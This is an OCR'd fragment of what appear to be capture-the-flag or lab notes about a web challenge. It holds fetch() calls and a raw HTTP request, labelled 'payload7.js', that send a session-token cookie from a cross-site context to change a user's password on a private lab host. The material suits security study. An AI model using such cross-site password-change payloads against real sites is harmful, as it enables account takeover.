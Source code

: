```bash
    "priority": "u=1, i",
    "sec-ch-ua": "\"Not=A?Brand\";v=\"24\", \"Chromium\";v=\"140\"",
    "sec-ch-ua-mobile": "?0",
    "sec-ch-ua-platform": "\"Linux\"",
    "sec-fetch-dest": "empty",
    "sec-fetch-mode": "cors",
    "sec-fetch-site": "cross-site",
    "sec-fetch-storage-access": "active",
    "cookie": "sessionToken=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJsb3Bob3N0cml4IiwiaXNBZG1pbiI6ImZhbHNlIiwiZXhwIjoxNzU4MzIwODg0LCJ1c2VySWQiOiIyMGY4YjExNy1kMzU0LTQ4MGYtODI3MC1kZWFmMGUwYmI2YmYiLCJ1c2VybmFtZSI6InRlc3QifQ.wjyseL8YdCqwYHSM33QPiVGUlG1bvu-D7Sm5CWTjBzw",
    "Referer": "http://192.168.62.62/"
  },
  "body": "password=test",
  "method": "POST"
});
```
now trying to do `payload7.js` to change the password
```bash
fetch("https://localhost:8443/api/me/password", {
  "headers": {
    "accept": "*/*",
    "accept-language": "en-US,en;q=0.9",
    "content-type": "application/x-www-form-urlencoded;charset=UTF-8",
    "priority": "u=1, i",
    "sec-ch-ua": "\"Not=A?Brand\";v=\"24\", \"Chromium\";v=\"140\"",
    "sec-ch-ua-mobile": "?0",
    "sec-ch-ua-platform": "\"Linux\"",
    "sec-fetch-dest": "empty",
    "sec-fetch-mode": "cors",
    "sec-fetch-site": "cross-site",
    "sec-fetch-storage-access": "active",
    "cookie": "sessionToken=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJsb3Bob3N0cml4IiwiaXNBZG1pbiI6ImZhbHNlIiwiZXhwIjoxNzU4MzIwODg0LCJ1c2VySWQiOiIyMGY4YjExNy1kMzU0LTQ4MGYtODI3MC1kZWFmMGUwYmI2YmYiLCJ1c2VybmFtZSI6InRlc3QifQ.wjyseL8YdCqwYHSM33QPiVGUlG1bvu-D7Sm5CWTjBzw",
    "Referer": "http://192.168.62.62/"
  },
  "body": "password=testtesttest",
  "method": "POST"
});
```

```bash
POST /api/me/password HTTP/1.1
Host: 192.168.62.62:8443
Cookie: sessionToken=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJsb3Bob3N0cml4IiwiaXNBZG1pbiI6ImZhbHNlIiwiZXhwIjoxNzU4MzIxMjUyLCJ1c2VySWQiOiIyMGY4YjExNy1kMzU0LTQ4MGYtODI3MC1kZWFmMGUwYmI2YmYiLCJ1c2VybmFtZSI6InRlc3QifQ.glYKmvOwHXKRKNWVct9SOfoIiCKzlP3YIbgFdbIYG_s
Content-Length: 21
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: en-US,en;q=0.9
Sec-Ch-Ua: "Not=A?Brand";v="24", "Chromium";v="140"
Content-Type: application/x-www-form-urlencoded;charset=UTF-8
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/140.0.0.0 Safari/537.36
Accept: */*
Origin: http://192.168.62.62
Sec-Fetch-Site: cross-site
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Sec-Fetch-Storage-Access: active
Referer: http://192.168.62.62/
Accept-Encoding: gzip, deflate, br
```